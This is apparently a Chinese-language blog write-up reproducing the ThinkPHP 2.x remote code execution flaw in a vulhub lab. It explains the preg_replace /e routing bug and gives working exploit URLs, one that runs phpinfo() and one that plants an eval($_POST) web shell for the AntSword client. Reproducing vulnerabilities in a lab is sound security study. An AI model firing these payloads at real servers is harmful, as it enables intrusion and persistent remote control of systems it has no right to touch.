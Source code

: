 ```yaml
---
title: ThinkPHP 2.x 任意代码执行漏洞
date: 2020-06-13 15:48:27
categories: 漏洞复现
tags: ThinkPHP
---
```


#### 背景

ThinkPHP 2.x版本中，使用`preg_replace`的`/e`模式匹配路由：

```php
$res = preg_replace('@(\w+)'.$depr.'([^'.$depr.'\/]+)@e', '$var[\'\\1\']="\\2";', implode($depr,$paths));
```

导致用户的输入参数被插入双引号中执行，造成任意代码执行漏洞。

ThinkPHP 3.0版本因为Lite模式下没有修复该漏洞，也存在这个漏洞。

<!--more-->

#### 复现过程

1.使用如下POC可查看phpinfo信息

```
http://your-ip:8080/index.php?s=/index/index/name/$%7B@phpinfo()%7D
```



![](http://cdn.laohuan.art/2020-06-13_15-57-09.png)





2.使用蚁剑连接

```
http://IP:8080/index.php?s=/index/index/name/${@print%28eval%28$_POST[1234]%29%29}
```



![](http://cdn.laohuan.art/2020-06-13_16-15-37.png)

3.url编码

* %7B: {
* %7D: }
* %28: (
* %29: )

#### 参考链接

<https://github.com/vulhub/vulhub/tree/master/thinkphp/2-rce/>
